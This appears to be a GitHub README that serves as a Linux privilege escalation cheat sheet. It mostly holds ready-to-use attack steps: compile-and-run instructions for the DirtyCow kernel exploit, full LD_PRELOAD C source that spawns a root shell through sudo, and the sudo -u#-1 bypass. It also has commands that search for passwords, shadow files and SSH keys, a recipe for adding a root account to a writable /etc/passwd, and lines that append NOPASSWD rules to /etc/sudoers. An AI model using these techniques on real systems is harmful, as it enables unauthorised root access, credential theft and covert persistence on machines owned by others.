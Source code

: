 # linux-privilege-Esclate
# Simple technique to esclate privilege

# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c  

  compile:- gcc -pthread dirty.c -o dirty -lcrypt  
  Time to execute:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)  
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)  
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)  
https://www.exploit-db.com/exploits/15704/  

4) CVE-2012-0056 (Mempodipper)  
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
https://www.exploit-db.com/exploits/18411  


# Weak File Permission

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null  
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd
/etc/security/opasswd 

# Last edited files
*Files that were edited in the last 10 minutes*  
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more  
/boot/grub/i386-pc/password.mod  
/etc/pam.d/common-password  
/etc/pam.d/gdm-password  
/etc/pam.d/gdm-password.original  
/lib/live/config/0031-root-password  

# SSH Key
*Sensitive files*  
find / -name authorized_keys 2> /dev/null  
find / -name id_rsa 2> /dev/null

# SUDO
* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*  
$ sudo -l

# GTFOBinn
https://gtfobins.github.io


# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/sh");  
}  
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami  

# Security bypass CVE-2019-14287
CVE-2019-14287 is a vulnerability found in the Unix Sudo program by a researcher working for Apple: Joe Vennix. This exploit present in older versions of Sudo (versions < 1.8.28).

Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, despite being explicitly prevented from doing so. It is worth noting that this will only work if you've been granted non-root sudo permissions for the command, as in the configuration above.  

Practically, the application of this is as follows: sudo -u#<id> <command>  
E.g sudo -u#-1 whoami

$ sudo whatever

[sudo] password for user:  

# Press <ctrl>+c since you don't have the password.  
# This creates an invalid sudo tokens.  
$ sh exploit.sh  
.... wait 1 seconds  
$ sudo -i # no password required :)  
# id  
uid=0(root) gid=0(root) groups=0(root)  
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf  

 
# Writabe /etc/passwd
If we have permission to write a passwd file in linux then generate password from this command.  

openssl passwd -1 -salt escalate  
mkpasswd -m SHA-512 esclate

Then add the generated password.

root:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash  
E.g: root:$1$hacker$TzyFIv0/R/c28W.GAeLw.1:0:0:root:/root:/bin/bash

You can now use the su command with root:esclate  
E.g: su root  

# Writable /etc/sudoers
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers  

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers  
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers  
